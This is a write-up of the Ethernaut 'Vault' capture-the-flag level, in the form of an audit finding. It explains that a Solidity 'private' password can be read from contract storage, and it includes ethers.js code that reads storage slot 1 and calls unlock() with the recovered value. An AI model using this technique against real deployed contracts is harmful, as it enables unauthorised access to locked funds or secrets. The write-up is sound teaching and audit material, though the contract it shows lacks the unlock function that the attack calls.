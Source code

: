 #### Unlock the vault to pass the level!

## Summary
The `Vault` contract is locked by a `bytes32 private password`. However, in Solidity, `private` variables are not actually private and can be read by anyone on the blockchain. Therefore, opening attack vectors.

```solidity
contract Vault {
    bool public locked;
    bytes32 private password;

    constructor(bytes32 _password) {
        locked = true;
        password = _password;
    }
}
```

## Vulnerability Detail
An attacker could easily view the actual `password` which is supposed to be a secret. Then, they can unlock the Vault.

Attack scenario:
1. Attacker uses `ethers` to find the actual `password` value:
```javascript
const provider = new ethers.providers.InfuraProvider('NETWORK_NAME', 'INFURA_PROJECT_ID');
// Get the value of storage slot 1 (the password variable)
let password = await provider.getStorageAt(contract.address, 1);
```
3. The attacker now has the password value. They call the `unlock` function of the contract:
```javascript
await contract.locked(); // true (before `unlock`)
await contract.unlock(password);
await contract.locked(); // false (the attacker just unlocked the contract)
```

## Impact
High. An attacker can unlock the `Vault` and do whatever they want to with it.

## Code Snippet
https://github.com/danielvichinyan/ethernaut-solutions/blob/main/vault/Vault.sol#L6

## Tools Used
Remix IDE, Manual Review

## Recommendation
Avoid storing sensitive variables just by themselves. 
Use hashing or zero-knowledge proofs.
